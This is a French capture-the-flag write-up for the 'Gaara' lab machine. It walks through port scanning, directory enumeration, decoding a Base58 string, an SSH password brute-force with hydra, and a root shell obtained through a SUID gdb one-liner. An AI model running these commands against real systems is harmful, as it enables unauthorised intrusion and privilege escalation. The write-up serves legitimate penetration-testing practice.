 # GAARA

    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.247.142 -e tun0 > ports_gaara.txt
    sudo nmap -A 192.168.247.142

Scans classiques.

    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
    |   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
    |_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
    80/tcp open  http    Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Gaara
 
 Le site web nous accueille sur une image prenant tout l'écran, il semble ne rien y avoir d'autre. J'ai lancé quelques scans sur les sous-dossiers en parallèle :
 

    feroxbuster -u http://192.168.247.142
    feroxbuster -u http://192.168.247.142 -w /usr/share/wordlists/dirb/big.txt
    feroxbuster -u http://192.168.247.142 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt

En dehors des fichiers classiques, on remarque un dossier **/Cryoserver/**

    curl http://192.168.247.142/Cryoserver

On obtient une page quasiment vide mais avec trois dossiers tout à la fin :

    curl http://192.168.247.142/Temari
    curl http://192.168.247.142/Kazekage
    curl http://192.168.247.142/iamGaara

Chaque page ne contient qu'un énorme texte, mais dans la page **"iamGaara"** se trouve un morceau étrange :

    f1MgN9mTf9SNbzRygcU

En allant sur https://www.dcode.fr et en analysant le texte encodé, les cinq premiers résultats sont :
- Periodic Table Cipher
- Base 58
- Base62 Encoding
- Substitution Cipher
- Shift Cipher

En testant dans l'ordre, le premier choix ne donne rien mais le deuxième choix donne **"gaara:ismyname"** et cela m'a tout de suite fait penser à un couple clé / mot de passe pour le SSH.

    ssh -l gaara 192.168.247.142

Le mot de passe n'a pas marché mais cela m'a donné l'idée de tenter de bruteforcer le port 22.

    hydra -vV -f -l gaara -P /usr/share/wordlists/rockyou.txt 192.168.247.142 -s 22 ssh

Cela fonctionne et on obtient le mot de passe.

    ssh -l gaara 192.168.247.142

Le flag utilisateur se trouve directement dans le dossier où on atterrit.

Pour l'élévation de privilèges, les simples vérifications habituelles suffisent :

    sudo -l 
    find / -perm /4000 2>/dev/null

Rien d'intéressant pour la première commande, mais GDB m'a sauté aux yeux pour la deuxième. Il suffit d'appliquer la commande classique pour ce cas de figure.

Voir : https://gtfobins.github.io/gtfobins/gdb/#suid

    ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

    ls /root

    cat /root/proof.txt
